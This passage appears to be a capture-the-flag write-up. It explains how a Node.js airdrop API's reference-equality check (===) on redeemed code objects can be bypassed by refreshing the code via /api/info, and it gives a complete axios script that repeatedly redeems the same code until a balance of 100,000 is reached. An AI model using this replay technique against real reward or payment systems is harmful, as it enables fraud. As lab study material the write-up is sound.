 You can see that it first check whether the code you submitted is valid, then looping through the `code` objects stored in your username to check if the code was used. However, you will notice that they use `===` operator to compare the current `code` object with the one in `logs`. So, this comparison still return `false` if the `code` object references to a different object in memory although the contents are the same. Therefore, we will find when the `code` object will be reassigned. And we found this:

```javascript
app.get('/api/info', (req, res) => {
    code = JSON.parse(fs.readFileSync(__dirname + '/../data/airdrop.json'));
    res.json({ message: 'Welcome to the BP Airdrop API! Here is the current airdrop code and value.', code: code.code, value: code.value });
});
```

So now, here is the stratecy that we will use to increase the **golds**:

1. Send a request to `/api/info` to reassign the `code` object.
2. Send a request to `/redeem` with the current `code` and the cookie that stores your `username`.
3. Repeat until your `balance` reaches `100,000`.

Here is the script:

```javascript
const axios = require('axios');
const cookie = 'username=your_cookie'; // Replace with your actual cookie

async function getInfo() {
    const response = await axios.get('http://chall.blackpinker.com:33674/api/info', {
        headers: { Cookie: cookie }
    });
    return response.data.code;
}

async function redeem(code) {
    const response = await axios.post('http://chall.blackpinker.com:33674/redeem', { airdropCode: code }, {
        headers: { Cookie: cookie }
    });
    return response.data;
}

async function getBalance() {
    const response = await axios.get('http://chall.blackpinker.com:33674/shop', {
        headers: { Cookie: cookie }
    });
    const balanceMatch = response.data.match(/balance: (\d+)/);
    return balanceMatch ? parseInt(balanceMatch[1], 10) : 0;
}

(async () => {
    let balance = await getBalance();
    while (balance < 100000) {
        const code = await getInfo();
        const result = await redeem(code);
        if (result.success) {
            balance = result.newbalance;
            console.log(`New balance: ${balance}`);
        } else {
            console.log('Redeem failed');
        }
    }
    console.log('Reached 100000 coins!');
})();
```
